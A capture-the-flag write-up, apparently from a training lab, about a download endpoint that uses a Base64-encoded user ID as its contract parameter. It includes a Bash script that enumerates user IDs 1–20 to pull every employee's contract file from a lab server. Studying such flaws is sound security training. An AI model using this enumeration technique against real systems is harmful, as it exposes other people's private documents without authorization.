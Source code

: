 # 🛡️ Challenge Write-Up: Download Hidden Employee Contracts (Web Exploitation)
## 🔍 Challenge Summary
The objective was to download employee contract files for user IDs 1 to 20 and extract a hidden flag from one of them. 
The application used a parameter named contract in a request to /download.php, which appeared to be encoded.
## 🧠 Initial Analysis
Inspecting the web application’s JavaScript revealed the following function:
```bash
 <script>
    function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
  </script>
```
Let's breakdown the above function:

- `downloadContract(uid)` : A function that takes a user ID (`uid`) as a parameter.
- `btoa(uid)` : Base64-encodes the UID. `btoa()` stands for binary to ASCII, commonly used to encode strings in Base64.
- `encodeURIComponent(...)` : Ensures the Base64 string is URL-safe by encoding any special characters (like `+`, `/`, `=`).
- `/download.php?contract=...` : Constructs a URL where the `contract` parameter contains the Base64-encoded UID.
- `window.location` = ... : Redirects the browser to the new URL, effectively making a GET request to download the contract file.

If we use uid =1 then this will be
- The uid is 1 (a number), but btoa() expects a string, so JavaScript automatically converts it:
  ```bash
  btoa("1") → "MQ=="
  ```
- URL Encode the Base64:
  ```bash
  encodeURIComponent("MQ==") → "MQ%3D%3D"

```
- Then the browser is redirected to:
```bash
/download.php?contract=MQ%3D%3D
```

This is what happened when I clicked on the file name intercepting on BurpSuite.
![image](https://github.com/user-attachments/assets/234eab05-ceea-4a61-a141-93b663eb0422)

## ⚙️ Automation with Bash
To automate the contract file download and mapping for UIDs 1–20, I wrote a Bash script:
```bash
  GNU nano 8.2                                                                                                       bic.sh                                                                                                                
#!/bin/bash

url="http://83.136.251.68:47200/download.php"

# Print table header
printf "%-5s | %-15s | %-40s\n" "UID" "Base64" "Filename"
echo "----------------------------------------------------------------------"

for uid in {1..20}; do
    encoded=$(echo -n "$uid" | base64)

    # Perform the download and capture headers
    response_headers=$(curl -sOJ -D - "$url?contract=$encoded" -o /dev/null)

    # Extract filename from Content-Disposition header
    filename=$(echo "$response_headers" | grep -oP 'filename=\K[^;]+')

    # Print row
    printf "%-5s | %-15s | %-40s\n" "$uid" "$encoded" "$filename"
done
```
![image](https://github.com/user-attachments/assets/1812122e-2baa-47ee-b830-9e7d225865c4)

I manually checked each file using:
```bash
cat contract_<hash>.pdf
```
![image](https://github.com/user-attachments/assets/ea770263-7e84-493d-a5b7-cf28179a5cf0)

## 🏁 Flag Found!
One of the contract files contained the hidden flag, which confirmed successful exploitation and automation of the download process.
